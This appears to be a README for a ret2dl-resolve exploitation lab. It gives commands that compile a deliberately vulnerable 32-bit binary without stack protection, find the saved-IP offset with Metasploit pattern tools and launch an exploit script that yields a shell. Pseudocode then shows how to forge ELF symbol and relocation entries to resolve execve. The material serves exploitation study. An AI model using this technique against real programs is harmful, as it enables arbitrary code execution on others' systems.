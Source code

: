 How to test
===========

1. Build vuln.c

    gcc -fno-stack-protector ../vuln.c -o /tmp/vuln -m32 -O2

2. Find the offset of the saved IP

    ruby19 "$METASPLOIT/tools/pattern_create.rb" 256 | /tmp/vuln
    dmesg | tail
    ruby19 "$METASPLOIT/tools/pattern_offset.rb" $SEGFAULT_IP

3. Launch the attack with the desired parameter

    (python ./exploit.py /tmp/vuln $OFFSET; echo ls) | /tmp/vuln

Basic idea
==========

char *buffer = .bss;
char *new_stack = buffer + 1024;
int *rubbish = new_stack + 4;

strcpy(buffer, "execve");
  *((int *) buffer) = 'exec';
  *(((int *) buffer) + 1) = 've\0\0';
char *name = buffer;
buffer += strlen(buffer) + 1;

Elf32_Sym *symbol = (Elf32_Sym *) buffer;
symbol->st_name = name - .dynstr;
symbol->st_value = 0;
symbol->st_info = 0;
symbol->st_other = 0;
symbol->st_shndx = 0;
buffer += sizeof(*symbol);

Elf32_Rel *reloc = (Elf32_Rel *) buffer;
reloc->r_offset = rubbish++;
reloc->r_info = (R_386_JUMP_SLOT | (symbol - .dynsym) / sizeof(symbol));
buffer += sizeof(reloc):

pre_plt((reloc - .rel.plt) / sizeof(Elf32_Rel));
